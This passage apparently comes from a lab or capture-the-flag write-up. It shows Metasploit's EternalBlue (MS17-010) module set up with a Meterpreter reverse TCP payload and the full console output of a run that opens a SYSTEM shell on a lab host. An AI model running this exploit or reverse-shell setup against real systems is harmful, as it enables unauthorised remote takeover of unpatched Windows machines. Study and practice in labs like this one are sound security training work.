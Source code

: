 ```
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

```

Running it returns a shell as SYSTEM:

```

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.40:49173) at 2021-05-03 21:32:51 -0400

```